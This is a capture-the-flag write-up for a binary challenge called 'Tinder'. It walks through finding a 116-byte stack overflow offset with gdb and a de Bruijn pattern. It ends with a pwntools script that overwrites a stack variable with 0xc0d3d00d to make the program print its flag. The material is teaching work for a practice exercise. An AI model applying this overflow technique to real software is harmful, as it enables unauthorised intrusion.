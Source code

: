 # Tinder

It gets a bunch of input from us using a function called input that does some multiplication a value,
lets call this number "num", and then calls fgets(var,num,stdin), basically reading num bytes into "var". 
By stepping through the program and looking at every function call of input, we see the last one has the largest value, 
so I just went with that even though they'd all probably work.


Later on, there are some interesting instructions. Namely these two:  
```
cmp DWORD PTR [ebp-0xc], 0xc0d3d00d
jne <main+443>
```
Note that these two lines are at `main+247` - that's quite a jump. It compares some variable on the stack to `0xc0d3d00d` and jumps away if they aren't equal. If they are equal, it goes on to execute some instructions including fopen, fgets, puts etc. - probably printing the flag from flag.txt. 


Using gdb, I set a breakpoint at the instruction that compares `ebp-0xc` to `0xc0d3d00d`. Then at the fourth input I pasted in a de brujin pattern generated by pattern.py. At the breakpoint, I read `ebp-0xc`, and pasted this value back into pattern.py. This gives 116 bytes until we overwrite this variable, so our payload is just

```
enter whatever you want into the first three inputs
enter 116 bytes + p32(0xc0d3d00d) on the fourth input
Script below, even though this doesnt really need a script(a dynamic one, I mean)
```
```python
from pwn import *
NUM_TO_VAR = 116
padding = b'A' * NUM_TO_VAR
p = remote('p1.ljctf.org',8002)
[p.sendline('t') for _ in range(3)] # If you send nothing it'll rage
payload = padding + p32(0xc0d3d00d)
p.sendline(payload)
p.interactive()
```

